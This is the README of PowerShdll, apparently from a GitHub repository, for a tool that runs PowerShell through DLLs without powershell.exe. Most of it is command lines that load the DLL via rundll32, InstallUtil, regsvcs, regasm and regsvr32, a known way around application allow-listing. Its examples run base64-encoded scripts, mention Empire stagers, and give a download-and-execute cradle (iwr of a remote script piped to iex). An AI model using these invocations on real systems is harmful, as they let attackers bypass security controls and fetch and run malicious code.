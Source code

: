 # PowerShdll
Run PowerShell with dlls only.

Does not require access to powershell.exe as it uses powershell automation dlls.

PowerShdll can be run with: rundll32, InstallUtil.exe, regsvcs.exe, regasm.exe, regasm.exe.

## dll mode:

### Rundll32:
```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window
rundll32 PowerShdll,main -i      Start an interactive console in this console
If you do not have an interractive console, use -n to avoid crashes on output
```
### Alternatives (Credit to SubTee for these techniques):

```
1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
2. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShdll.dll
3. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShdll.dll
4. 
    regsvr32 /s  /u PowerShdll.dll -->Calls DllUnregisterServer
    regsvr32 /s PowerShdll.dll --> Calls DllRegisterServer
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console
```
## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
```
Note: Empire stagers need to be decoded using [System.Text.Encoding]::Unicode
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Requirements
 * .Net v3.5 for dll mode.
 * .Net v2.0 for exe mode.

## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

